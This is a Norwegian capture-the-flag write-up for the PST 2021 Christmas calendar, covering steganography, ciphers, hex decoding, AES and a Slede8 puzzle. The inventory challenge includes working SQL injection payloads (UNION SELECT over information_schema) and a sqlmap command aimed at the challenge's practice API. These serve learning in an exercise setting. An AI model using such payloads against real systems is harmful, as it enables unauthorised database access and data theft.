Nytt år, nye muligheter. [PST](https://pst.no/) arrangerte også i desember 2021 en [CTF](https://en.wikipedia.org/wiki/Capture_the_flag) med lignende tema som foregående år. Nissen trenger hjelp med alt fra sortering av varelager til hjelp med å avsløre noen skumle agenter. 

Daglig kl 18:00 dukket det opp et nytt oppdrag i en melding i et windowslignende grensesnitt som kalles DASS. Oppgavene har gjerne litt stigende vanskelighetsgrad jo nærmere man kommer julaften. Nytt fra foregående år var at 
oppdragene ble gitt kl 18:00 istedenfor midnatt, samt at mandager var oppdragsfrie. I tillegg var julaftens oppgave relativt lett og ble sluppet på formiddagen, noe som nok førte til at flere rakk å feire
julaften med god samvittighet.

Alt i alt var det 21 oppgaver som ga 10 poeng hver, samt 5 ekstraoppgaver ("egg"), som ga ett poeng hver. Maks poengsum blir da for den som er skarp i matte, 215.

# 1 Velkommen

> Veldig hyggelig å ha deg ombord og fint å se at du har funnet veien inn til DASS [...] mal din egen skrivebordsbakgrunn [...]
> i tilfelle du trenger litt starthjelp, legger jeg ved et eksempelbilde


Et bilde betyr gjerne [steganografi](https://no.wikipedia.org/wiki/Steganografi), med skjulte meldinger i en annen melding. Her finnes mange ressurser tilgjengelig på nett. 
Følgende tre ramler jeg ofte innom, men det finnes sikkert mange flere

- https://stylesuxx.github.io/steganography/
- https://aperisolve.fr/ 
- https://stegonline.georgeom.net/

Eventuelt kan man løse det rett i terminalen

```bash
$ zsteg eksempel_bakgrunnsbilde.png
b1,rgb,lsb,xy       .. text: "PST{HelloDASS}"
```

**Løsning: PST{HelloDASS}**

# 2 Huskelapp

> I fjor rakk ikke julenissen å dele ut pakker til alle som hadde gjort seg fortjent [...]
> Det hadde rett og slett blitt for mange snille barn [...] 
> Julenissen fant i går en huskelapp som han tror kan være relevant, men han klarer ikke å finne ut av hva han skulle huske

Vedlagt var en fil, `huskelapp_til_2021.txt`

```bash
$ cat huskelapp_til_2021.txt
[[78.836714, 16.805659], [78.85211, 16.805659], [78.862683, 16.805659],...
```
Det virket være en lang liste med koordinater som f.eks. kan lastes opp i [Google Maps](https://www.google.com/maps). For å få til det, må de være på et format Google Maps forstår. 
Følgende Kotlin-kode konverterte til Google Maps-vennlig format

```kotlin
fun main() {
    val koords = File("huskelapp_til_2021.txt")
        .readText()
        .split(Pattern.compile("\\[{1,2}|],\\s\\[|]]"))
        .filter { it.isNotEmpty() }
    Path.of("out.csv").writeLines(listOf("lat, lon") + koords)
}
```
```bash
$ cat out.csv
lat, lon
78.836714, 16.805659
78.85211, 16.805659
...
```

Deretter kunne man laste den CSV'en opp i Google Maps, og følgende åpenbarte seg



**Løsning: PST{MANGE SNILLE BARN I VERDEN}**

# 3 Julekort
> Det Nordpolare Postkontor har oppdaget et julekort som er på vei til Antarktis. Etterretning viser at pingvinene i Antarktis ikke alltid har ren snø i skuffa. Det er derfor ønskelig at en alvebetjent gjennomfører en rutinemessig kontroll, og undersøker julekortets bakside og framside



Et postkort med en framside og en bakside som hadde en del underlige tegn. Det viste seg å være [Pigpen Cipher](https://en.wikipedia.org/wiki/Pigpen_cipher).

Baksiden kunne dekrypteres til "PILA" via standard Pigpen-alfabet på https://www.dcode.fr/pigpen-cipher. 

Tok man hensyn til retningen på "PILA" og roterte framsiden 180 grader, fikk man følgende tegn, lest fra oppe i  venstre hjørne og ned: 

. 

La man inn denne på samme side som forrige, fikk man løsningsordet

**Løsning: PST{JULENISSENERTEIT}**

# 4 Verkstedkrøll
> HMS-ansvarlig var innom verkstedet i går og var helt forskrekket over rotet vi har etterlatt oss der. Jeg er litt opptatt med møter i dag, kan du ta deg tid til å rydde litt? Oversikt over hva vi har på verkstedet ligger vedlagt.

Vedlagt var en liste med oversikt over verkstedinnhold, 84 rader
```
               Indeks;Hylleplass;Utstyr;Id
 1;153a;justerbar skiftenøkkel_str_01;1629
  2;132;justerbar skiftenøkkel_str_02;1356
```
`Hylleplass` virket være en hex-kode og det å oversette dette til tegn ga noe lesbart, men mye rart 

```
ᔺIJ{ĦቬʼnėĢDढ़ĂħᑼĀ‘ࡏFĤłħRĥotĥ}TąᐺĢeř‘łࠝăĨtĢĠ‡࢟ĸėB‰‚ħēlŖĹoēՓrtİPရĤ™ʼnĢiࡍārSЙ“ĤŖęŐम
```

Om vi bare oversatte de tegn som hadde en verdi < 128, holdt vi oss innenfor [ASCII-tabellen](https://www.asciitable.com/) og fikk følgende

```
{DFRot}TetBlortPirS
```
Det begynte å ligne på noe, men rekkefølgen var feil. Sortering på kolonnen `Utstyr` viste seg å gi rett rekkefølge og følgende Kotlin-kode fant flagget

```Kotlin
data class Inventory(val indeks: Int, val hylleplass: Int, val utstyr: String, val id: Int)

fun main() {
    val inv = mutableSetOf<Inventory>()
    File("verksted_npst.txt").readLines().drop(1).forEach {
        val split = it.trim().split(';')
        inv.add(Inventory(
            split[0].toInt(), 
            split[1].trim().toInt(radix = 16), 
            split[2], 
            split[3].toInt())
        )
    }
    inv.sortedBy { it.utstyr }
        .filter { it.hylleplass < 128 }
        .forEach { print(it.hylleplass.toChar()) }
}
```

**Løsning: PST{DetBlirFortRot}**

# 5 Digitalisert varelager
> NPST har digitalisert varelageret sitt og flyttet det til skyen! For øyeblikket er det fortsatt i oppstartsfasen og trenger litt kvalitetssjekking.
> Har du mulighet til å se om Varelager v1 funker som det skal og at det ikke skjuler seg noen feil i systemet?
> Varelageret finner du [her](https://varelager.p26e.dev/), og bruk programmeringsgrensesnittnøkkel v1_pgmsqxmddz.


Skrev man `hjelp` som Søkeord, fikk man følgende melding.

> https://youtu.be/ciNHn38EyRc Men bruk "null" for å fylle opp til riktig antall kolonner i stedet for et tilfeldig tall som de gjør

Lenken gikk til en instruksjonsvideo om SQL Injection og vi fikk raskt informasjon om hvordan vi kan liste hele tabellen ved å taste inn `';--` i søkefeltet.



Åpenbart et flagg i den tabellen. Så var det bare å følge Youtube-videoen og prøve seg fram med de kommandoer som ble foreslått 

```
viser at man kan få ouput: 
Appelsin' UNION (SELECT null,null,null,null,null,null FROM v1.ting);-- 

viser en mengde Postgres-tabeller:
Appelsin' UNION (SELECT null,table_name,null,null,null,null FROM information_schema.tables);-- 

viser at det finnes en kolonne som heter flagg:
Appelsin' UNION (SELECT null,column_name,null,null,null,null FROM information_schema.columns where table_name='ting');--   

gir flagget:
Appelsin' UNION (SELECT null,null,null,null,flagg,null FROM v1.ting);--  
```
Alternativt verktøy som også gir mye interessant:
```
$ sqlmap -u https://varelager.p26e.dev/api/search --data '{"search":"Appelsin","key":"v1_pgmsqxmddz"}' --schema
[INFO] the back-end DBMS is PostgreSQL
```
**Løsning: PST{5Q1_1nj€Ⓒt10n}**

# 7 Kryptert melding
> Godt å se at du er klar for en ny arbeidsuke! Arbeidsoppgavene står i kø, så det er best å sette i gang umiddelbart:
> Det er fanget opp en kryptert melding som Etterretningsalvdelingen har grunn til å tro at inneholder noe av interesse. Meldingen skiller seg ut fordi det ser ut til at mottaker er lokalisert i sydpolare strøk. For andre gang på under en uke! E-alvene er temmelig overbevist om at det er brukt temmelig sikker krypto her, fordi de ikke klarer å knekke meldingen. Og det sier litt, siden e-alvene våre er eksperter på knekking.
> Uansett, kan du ta en titt? E-alvene mener det er en umulig oppgave siden de ikke klarer det, men jeg håper at du kanskje har litt nyansattflaks.
> Her er meldingen:

```
Y2MPyYU4kblEXrEfExry4AIRAjqdke+JyQQN50Uj5GuCu5rE66lEzQXB5bE VOlNGRoU06Ny4vh/gzSPFV0mHUrxaaAVt1BwN1WN1HFT7baIejtR5KyG6 JK8yC70CpuPZV610coCiWzdFICcgEtAdQaesScLrg495kxofzG3EGvA=
```
Dette var tydeligvis en vanskelig oppgave, for senere på kvelden kom følgende hint
> Etterretningsalvdelingen informerer om at mottaker av den krypterte meldingen heter Chili Willy. Kanskje det kan være til hjelp for å dekryptere meldingen?

Og etterhvert nok et hint (med store bokstaver som gir AES):
> en Alvebetjent gjorde meg oppmerksom på at det kan ha foregått En nøkkelutveksling tidligere i desember, kanSkje det kan hjelpe i oppklaringen?

Hintene fortalte at Chili Willy var mottaker og at [AES-kryptering](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) var benyttet. Men hva var nøkkelen? Jo, det var visst flagget fra luke 3 der Chili Willy hadde mottatt julekort: `julenissenerteit` (med små bokstaver, det var ikke helt åpenbart)

Dekrypterte man med denne informasjon, f.eks. på https://www.devglan.com/online-tools/aes-encryption-decryption, fikk man etterhvert følgende tekst (etter å ha gått via en base64-decoding også)

`NPST skal endre paa pakkefordelingsruta i aar. Det gir mulighet for aa sabotere. XOXO M. PS Ikke god jul. PS pst{nootnoot}`

**Løsning: PST{nootnoot}**

# 8 Frimerke
> En av alvebetjentene fant et løst frimerke i postmottaket. Initielle undersøkelser viser at det ikke kan ha sittet på julekortet som kom den 3. desember, da fiberne som sitter igjen i limet ikke er av samme type som julekortet. Fiberne kan minne om setetrekket fra en reinsdyrslede klasse 8.
> Motivet på frimerket er av en slik karakter at det må undersøkes nærmere. Kan du ta en titt?

Vedlagt var en fil, `frimerke.png`


Lastet opp bildet til https://stegonline.georgeom.net/ og bladde gjennom bitplanes, som ga følgende:


Dvs. `B0 XOR S8("Frimerke\x00...")`   

B0 hadde et fragment av en QR-kode :


G0 hadde et merkelig mønster, og ved å ekstrahere data fra denne, fikk man følgende: `2E 53 4C 45 44 45 38 A1 00 B1 01 78 04`, eller i ASCII: ` .SLEDE8..`   
Skrekk og gru, et [Slede8](https://github.com/p26e/slede8)-program!? Slede8 var mye brukt under [fjorårets julekalender](ctf_pst_2020.md), så det
var en fordel å ha vært med før.

Her var det uansett mye å ta tak i. Først laste ned G0, og få det inn i Slede8. Her var det å grave fram kunnskapen fra i fjor. Alt etter `.SLEDE8` (`0x38`), går inn som dette (`0xa1=161` osv.)
```
.DATA 161,0,177,1,120,4 osv.
```

[Det fullstendige programmet i Slede8](https://slede8.p26e.dev/#N4Igzg9grgTgxgUwMIQCYJALhAOgCICCAKgQAQCMAbOQDQAMN5A7E44wEwMAsNAHJfUENhQ0SPFjJE6VPoAdAHb5iZGWtnrNGsYuUlS7LrWP8ahxqfat2AVga2LAm47Otez8gE5a7AMyMmZ3ZmGh4RLk9BSmdfBk86XUJ9a3JeM1p3AMjbBnIfVPSaG2dKVhtWAUzmbLtGAWC04MZaBl9-ONZfckSVCnJnBkzPAR5nD15jcn92Iv881jyB0JoBPP8BSki8xuM6WnizGbWaMt8e-XnC3iP2SPr6ub2LHl4F3hetrf7BUZpPTqKjCeNjmE2aSyqTBGK3OZGOFS+aXGMya5CeB3YKIyRxaNDagkWgkyXDSaOMUOWYwsk2ms2aTFhfQhzhJy1WUxWK0RhTJf3sOP8p3pVxudzMDyBJhebw+jC4jMJgxZaV+-zxgN5IOp4KJyr4HgpPHZgq5zSRFixkr5h3SjOuzUE+Ny3yVoVJT2Y0KpqRpZjpl0V+rdbOa61N2x5e0ZGIFJ39ISa9vIt057AlvNS0uefE+OtdrNVAI8wNB3SUSThLqDnpD8PDBWRkf2-JFDudQSDrM4frygk8kW4nM2dqcFr4M3ZBKrxJVGvILytqXWX1YarKVpjzQXWsuiZxjO4A5WMRxHZnqbM9mrTEivju1giZh4vfbfsfDGieNPfvPPBRCXLXo0TzTtGivSFb3vHNxTbHUZnfY8vzg0DlhRFFr0glZrCCUlcWTRQQBoEAAEsFAABygAAXLAQDoOj6IYximOYljWOYkAAF8gA)

Og føde skulle tydeligvis være "Frimerke\x00...". På hex så klart, med en masse nuller bak: `4672696d65726b6500000000000000000000000000000000000000000000000`   
Dette funka ikke i første omgang. Måtte skru opp antall sykluser til Slede8. Fant en gammel post fra Tastefinger fra i fjor:

> Nå kan man overskrive maks antall 🚲  ved å sette valgfri grense i localStorage: localStorage.setItem("🚲", <ønsket grense>)

Satte denne til et ekstremt stort tall og fikk en veldig lang oppgulp. Så oppgulpet kombinert med hex-koden fra B0 og litt [magi fra CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'Hex','string':'B9%208D%2096%2092%209A%208D%2094%209A%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%2014%2060%2050%20DA%20C2%20E0%2056%20C2%207F%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FE%20D7%201F%205E%2002%203A%205F%2050%203B%203F%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FC%2012%20CE%204D%20FB%2093%204E%205F%2090%209F%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FB%20DA%2025%2060%20F1%2058%2065%204F%205E%20CF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20F1%2083%20B5%201E%206D%2047%2015%2066%204C%2027%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20EC%20F9%2005%20CD%2001%2072%20D5%2011%2063%20B3%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20C2%2075%20F4%20A1%20FD%202A%2015%20DD%2019%2009%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20BB%2024%20E6%20BC%20F9%20AB%20D4%2089%20C5%20EC%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%2010%20B6%2050%209A%2074%2029%2096%20EC%20B4%20C2%207F%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FE%20DE%2081%205E%20C3%2027%20AC%2050%2042%2086%203B%203F%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FC%200C%20FD%204C%2038%20B3%2023%205F%207A%20F1%2090%209F%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FF%20FB%20E2%2079%206C%2069%2077%2047%20B1%20CD%2093%20AE%20CF%20F0%200F%20FF%20FF%20FF%20F0%200F%20F0%200F%20F0%2000%2000%200F%20F0%2000%2000%2000%2000%2000%2000%2001%20DB%2035%2016%20AF%2011%2068%209A%2074%20FC%20BC%2027%20F0%200F%20FF%20FF%20FF%20F0%200F%20F0%200F%20F0%2000%2000%200F%20F0%2000%2000%2000%2000%2000%2000%201C%2080%2085%20CA%20A1%20BB%202D%20EB%2097%2007%2093%20B3%20F0%200F%20FF%20FF%20FF%20F0%200F%20F0%200F%20F0%2000%2000%200F%20F0%2000%2000%2000%2000%2000%2000%2032%20FE%20F4%20BA%20B2%2089%20E4%2028%20F1%2088%20E9%2009%20F0%200F%20FF%20FF%20FF%20F0%200F%20F0%200F%20F0%2000%2000%200F%20F0%2000%2000%2000%2000%2000%2000%204A%207C%2066%208A%209E%20DE%203E%206D%201A%20DD%2035%20EC%20F0%200F%20FF%20FF%20FF%20F0%200F%20F0%200F%20F0%2000%2000%200F%20F0%2000%2000%2000%2000%2000%2000%20E3%203B%2010%20FA%20E2%2043%2043%20A5%20AA%2045%20C4%20C2%2070%200F%20FF%20FF%20FF%20F0%200F%20F0%200F%20F0%2000%2000%200F%20F0%2000%2000%2000%2000%2000%2001%2028%2090%20DE%206A%2037%20E5%2064%20BC%20AB%20EC%2076%203B%2030%200F%20FF%20FF%20FF%20F0%200F%20F0%200F%20F0%2000%2000%200F%20F0%2000%2000%2000%2000%2000%2003%20F6%20DE%200D%201B%2050%203D%203F%2087%20A8%2026%2081%2090%2090%200F%20FF%20FF%20FF%20F0%200F%20F0%200F%20F0%2000%2000%200F%20F0%2000%2000%2000%2000%2000%2004%2000%200D%20E1%20D9%2057%20BA%203F%2037%2053%208A%20DC%2051%2030%200F%20F0%2000%200F%20F0%2000%2000%200F%20FF%20FF%20FF%20FF%20F0%200F%20FF%20FF%20FF%20FF%20FE%201F%20E0%205C%209F%2043%2013%209E%2082%2059%207A%2053%2043%20D8%200F%20F0%2000%200F%20F0%2000%2000%200F%20FF%20FF%20FF%20FF%20F0%200F%20FF%20FF%20FF%20FF%20E3%2037%20DF%204A%20D1%2078%20D9%204C%20FB%2045%202B%20C8%206C%204C%200F%20F0%2000%200F%20F0%2000%2000%200F%20FF%20FF%20FF%20FF%20F0%200F%20FF%20FF%20FF%20FF%20CD%20C3%208E%206A%2003%201E%2005%2062%2070%2075%20B8%2067%2016%20F6%200F%20F0%2000%200F%20F0%2000%2000%200F%20FF%20FF%20FF%20FF%20F0%200F%20FF%20FF%20FF%20FF%20B4%2079%2065%200B%20ED%20B5%20F5%201B%202F%2024%200C%20A2%20CA%2013%200F%20F0%2000%200F%20F0%2000%2000%200F%20FF%20FF%20FF%20FF%20F0%200F%20FF%20FF%20FF%20FF%201E%209D%2015%20E9%20D4%2084%20E5%20C0%20A6%20B7%20F7%20AA%203B%203D%208F%20F0%2000%200F%20F0%2000%2000%200F%20FF%20FF%20FF%20FF%20F0%200F%20FF%20FF%20FF%20FE%20D2%20F1%20D4%204C%208F%20D6%2054%20BE%20B0%2083%20F8%20B3%2089%20C4%20CF%20F0%2000%200F%20F0%2000%2000%200F%20FF%20FF%20FF%20FF%20F0%200F%20FF%20FF%20FF%20FC%2006%200C%2097%2062%20F0%2041%2056%209C%208E%20F9%20ED%2089%207E%206F%206F%20F0%2000%200F%20F0%2000%2000%200F%20FF%20FF%20FF%20FF%20F0%200F%20FF%20FF%20FF%20FB%20E3%200A%20D2%201A%2070%20FD%205F%2035%201B%2084%20D4%20C5%202C%2051%2030%2000%200F%20FF%20FF%20FF%20F0%200F%20F0%200F%20F0%200F%20F0%200F%20F0%2000%2000%2001%20CD%2082%201B%20C3%2031%2011%2051%20D5%20A8%20D6%200F%2075%20A3%2043%20D8%2000%200F%20FF%20FF%20FF%20F0%200F%20F0%200F%20F0%200F%20F0%200F%20F0%2000%2000%201C%20B4%20DB%20C1%20B8%2093%20AD%2042%2054%20AD%2041%20F1%2004%2038%206C%204C%2000%200F%20FF%20FF%20FF%20F0%200F%20F0%200F%20F0%200F%20F0%200F%20F0%2000%2000%2032%209F%2059%20BC%2096%20C4%20B9%206F%20D7%20A5%207C%20F3%2097%2097%2016%20F6%2000%200F%20FF%20FF%20FF%20F0%200F%20F0%200F%20F0%200F%20F0%200F%20F0%2000%2000%204A%20D1%205C%201A%20D0%2027%209D%2010%2050%20BD%2012%2074%20E3%2052%20CA%2013%2000%200F%20FF%20FF%20FF%20F0%200F%20F0%200F%20F0%200F%20F0%200F%20F0%2000%2000%20E2%2003%2053%20C2%201F%20A0%20F1%20C0%20D9%2085%20AB%203F%2028%205A%203B%203D%2080%200F%20FF%20FF%20FF%20F0%200F%20F0%200F%20F0%200F%20F0%200F%20F0%2000%2001%202B%20ED%2049%20BB%20CF%2029%200C%20A9%204E%20CC%20B0%2081%20F7%2043%2089%20C4%20C0%200F%20FF%20FF%20FF%20F0%200F%20F0%200F%20F0%200F%20F0%200F%20F0%2000%2003%20F1%20D5%2064%2011%20A6%20BF%208A%20BF%2072%2077%208E%20EA%2002%2079%207E%206F%2060%200F%20FF%20FF%20FF%20F0%200F%20F0%200F%20F0%200F%20F0%200F%20F0%2000%2004%200C%208D%2027%20DC%20B0%2080%20C2%2081%201F%2090%20CC%205B%201B%203A%20D3%20AE%20C0%2000%2000%200F%20FF%20F0%200F%20FF%20FF%20F0%200F%20F0%200F%20F0%2000%200E%200A%20F5%20E3%208A%208E%20E9%207A%20EB%20A0%20F9%206B%2059%20B8%208A%205C%20BC%2028%2000%2000%200F%20FF%20F0%200F%20FF%20FF%20F0%200F%20F0%200F%20F0%2000%2013%2002%207C%2029%206A%20E4%205F%201A%2058%20B1%200F%2030%205E%209E%20FB%20C7%2093%20BC%2000%2000%200F%20FF%20F0%200F%20FF%20FF%20F0%200F%20F0%200F%20F0%2000%203D%209B%2026%2075%200A%2057%2051%20BB%205D%209B%2091%20CF%2052%20F4%2068%2068%20E9%2006%2000%2000%200F%20FF%20F0%200F%20FF%20FF%20F0%200F%20F0%200F%20F0%2000%2044%20F8%20A3%2085%20EB%2052%2042%2098%2054%20E8%20FA%206E%2046%2007%201C%20AD%2035%20E3%2000%2000%200F%20FF%20F0%200F%20FF%20FF%20F0%200F%20F0%200F%20F0%2000%20EF%201E%20AC%20D4%20C8%205B%206E%20FF%204F%202D%200B%20BD%2063%2012%20D7%20A5%20C4%20CD%2080%2000%200F%20FF%20F0%200F%20FF%20FF%20F0%200F%20F0%200F%20F0%2001%2021%20B4%20B7%2046%202F%2040%2012%2016%2071%20E5%2098%2091%200D%20AA%2008%20BC%2076%2034%20C0%2000%200F%20FF%20F0%200F%20FF%20FF%20F0%200F%20F0%200F%20F0%2003%20F2%2086%2099%2071%20A6%207F%20C7%2021%2032%203C%20ED%20ED%20F4%20B3%20FD%2086%2081%209F%2060%2000%200F%20FF%20F0%200F%20FF%20FF%20F0%200F%20F0%200F%20F0%2004%201E%20D0%20DF%200C%2031%203F%20A1%20ED%2097%2047%2024%2038%20FF%2089%20EB%2035%2023%20AE%20C0%200F%20F0%2000%2000%2000%200F%20F0%200F%20FF%20F0%200F%20F0%200E%2022%204E%2011%208B%208D%209F%202A%2038%2049%2069%20FE%205E%2060%20C4%20C8%2085%20AC%20BC%2028%200F%20F0%2000%2000%2000%200F%20F0%200F%20FF%20F0%200F%20F0%2013%2077%20ED%20C2%20C1%2060%20CE%20BB%205F%207F%202E%2003%20D5%2009%2076%202E%20F4%2037%2093%20BC%200F%20F0%2000%2000%2000%200F%20F0%200F%20FF%20F0%200F%20F0%203D%2010%2038%20AE%207D%201E%2024%2089%2056%2021%20E3%2004%2045%20FF%2001%20A4%2067%2098%20E9%2006%200F%20F0%2000%2000%2000%200F%20F0%200F%20FF%20F0%200F%20F0%2045%20B8%205E%20B3%2091%20CD%20B6%20FF%2041%20AA%2035%208E%20F4%20E1%209C%2037%2013%205D%2035%20E3%200F%20F0%2000%2000%2000%200F%20F0%200F%20FF%20F0%200F%20F0%20EC%208C%20D4%2094%20EC%20A0%2080%2061%207C%203B%2054%20D2%2006%204A%20F3%2082%20D8%2055%20C4%20CD%208F%20F0%2000%2000%2000%200F%20F0%200F%20FF%20F0%200F%20F1%2027%20D7%2046%20CF%203A%20BE%20FF%200B%2013%2089%2057%205F%2011%207A%2009%207A%2007%204C%2076%2034%20CF%20F0%2000%2000%2000%200F%20F0%200F%20FF%20F0%200F%20F3%20F8%2051%2070%2031%20DA%209C%207E%20F9%20A9%207F%2051%2041%20AD%202B%2005%2033%20F2%2076%2081%209F%206F%20F0%2000%2000%2000%200F%20F0%200F%20FF%20F0%200F%20F4%200C%20DB%200F%2092%205A%20CB%203C%206E%20B5%202E%20A4%209D%2049%20B9%2095%2086%201B%203A%20DC%205E%20CF%20FF%20F0%200F%20F0%200F%20FF%20FF%20FF%20F0%200F%20F1%20E8%20B6%207F%2047%20DA%2028%209B%2012%2085%20A4%20B6%20C9%206C%200E%20E4%2063%2038%208A%2053%204C%2027%20FF%20F0%200F%20F0%200F%20FF%20FF%20FF%20F0%200F%20EC%20CE%2081%203E%2060%205B%20AE%20C0%20C6%20D4%2036%2080%202D%2003%20F2%2027%200D%20DE%20FB%20C8%2063%20B3%20FF%20F0%200F%20F0%200F%20FF%20FF%20FF%20F0%200F%20C2%2024%20FD%209D%2008%20D9%2024%203E%2022%2047%2080%20FF%20A1%20F9%20F7%2062%20F4%2054%2068%2067%2019%2009%20FF%20F0%200F%20F0%200F%20FF%20FF%20FF%20F0%200F%20BB%20B6%2078%2049%20FD%205D%20B7%209D%20AF%20F3%207E%207F%203C%20F4%20F9%202A%207E%20C7%201C%20A2%20C5%20EC%20FF%20F0%200F%20F0%200F%20FF%20FF%20FF%20F0%200F%2011%2001%2037%206C%20E5%2050%2003%2048%2030%2008%203D%203E%209A%2066%206F%20F3%2022%2072%20D7%20AA%2034%20C2%207F%20F0%200F%20F0%200F%20FF%20FF%20FF%20F0%200E%20DD%20FD%2082%2002%2045%204F%20F8%206F%2090%2007%2099%209C%20C3%2011%2010%2008%20AF%208A%2008%20B3%2086%203B%203F%20F0%200F%20F0%200F%20FF%20FF%20FF%20F0%200C%2008%20F8%207B%20FB%2065%206F%20F7%2007%2040%2013%2044%204A%2038%20DD%20C0%2006%20B0%20C3%20FD%2089%2071%2090%209F%20F0%200F%20F0%200F%20FF%20FF%20FF%20F0%200B%20EE%2077%2031%20F0%2005%203F%20E2%20F2%2068%2027%2088%2094%2069%20F7%2058%2010%2091%2079%20E4%20C5%2023%20AE%20C0%200F%20F0%200F%20F0%200F%20F0%200F%20F0%200E%203A%20DD%2073%2010%2015%20D7%20DA%206B%201C%2078%20DD%20F6%20AE%2011%204C%202E%20C3%201C%20C7%2075%20AC%20BC%2028%200F%20F0%200F%20F0%200F%20F0%200F%20F0%2013%204A%2045%201D%20B8%2034%2043%2083%2008%20D6%208D%2044%2012%20A3%203B%2076%207C%202D%20B2%2021%2004%2037%2093%20BC%200F%20F0%200F%20F0%200F%20F0%200F%20F0%203D%207B%20ED%20A4%208C%2056%20F9%2078%20EE%200A%20D5%206E%203E%20B5%20C9%2013%2093%20B4%208B%20AB%2097%2098%20E9%2006%200F%20F0%200F%20F0%200F%20F0%200F%20F0%2045%2008%2024%20BF%20D6%20D2%201D%2036%2045%20FA%2055%2023%2042%2094%207F%20BC%20E9%201F%20C1%2038%20E3%205D%2035%20E3%200F%20F0%200F%20F0%200F%20F0%200F%20F0%20ED%209C%207F%2080%2052%205F%2031%2081%2074%20EB%20D5%20F5%2066%20F6%2080%2087%2035%20D0%207D%208D%2028%2055%20C4%20CD%208F%20F0%200F%20F0%200F%20F0%200F%20F1%2024%20E6%2080%20C0%20DF%20C1%20CC%207D%2026%2058%2054%2015%203A%2012%20C1%20C9%20C4%2080%2090%2075%20F7%204C%2076%2034%20CF%20F0%200F%20F0%200F%20F0%200F%20F3%20FF%203A%20C1%2061%2040%2062%206B%2039%20B1%205C%20D6%2035%20CB%203E%2062%207E%2076%20E9%20EF%203C%2002%2076%2081%209F%206F%20F0%200F%20F0%200F%20F0%200F%20F4%2001%20CA%2063%2033%2060%20B7%20B0%2094%208D%2058%20AC%20AB%2086%203C%2048%207C%2070%2051%20CE%2089%20EB%2035%202C%205E%20CF%20F0%200F%20FF%20FF%20FF%20FF%20F1%20FD%2084%204A%2022%20CE%206F%207E%20D6%20E1%2046%20A2%20A9%2071%209B%206F%203B%202F%205C%20A4%20EC%20C8%2085%20A3%204C%2027%20F0%200F%20FF%20FF%20FF%20FF%20EC%20F8%2077%206B%20BA%2025%2006%203C%2010%205D%2070%20BA